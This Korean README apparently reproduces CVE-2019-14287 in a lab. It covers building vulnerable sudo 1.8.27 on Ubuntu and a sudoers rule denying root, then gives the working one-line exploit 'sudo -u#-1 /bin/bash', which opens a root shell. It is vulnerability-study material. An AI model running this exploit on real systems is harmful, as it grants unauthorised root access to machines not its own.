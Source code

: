 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS             | Vulnerable App |
| :---     | :---           | :---           |
| Victim   | Ubuntu 18.04.3 | [sudo 1.8.27](https://github.com/2jinu/CVE/raw/main/LPE/%5BLinux%5D%20CVE-2019-14287/file/sudo-1.8.27.tar.gz) |

# **Setting**

sudo파일 압축 해제

```sh
root@srv:~# tar -xf sudo-1.8.27.tar.gz
root@srv:~# ./configure --prefix=/usr --libexecdir=/usr/lib --with-secure-path --with-all-insults --with-env-editor --docdir=/usr/share/doc/sudo-1.8.27 --with-passprompt="[sudo] password for %p: "
root@srv:~# make
root@srv:~# make install
root@srv:~# chmod u+w /etc/sudoers
```

/etc/sudoers에 다음과 같이 설정

```sh
[추가]
"사용자 계정" ALL=(ALL,!root) NOPASSWD: ALL

[수정]
%admin과 %sudo 부분 주석처리
```

/etc/sudoers 권한 복구

```sh
root@srv:~# chmod u-w /etc/sudoers
```


# **Exploit**

```sh
user@srv:~$ sudo -u#-1 /bin/bash
```

# **etc**

sudo 버전 확인

```sh
user@srv:~# sudo -V
```

sudo 권한 확인

```sh
user@srv:~# sudo -l
```

표준입력으로 패스워드 입력

```sh
user@srv:~# sudo -S
```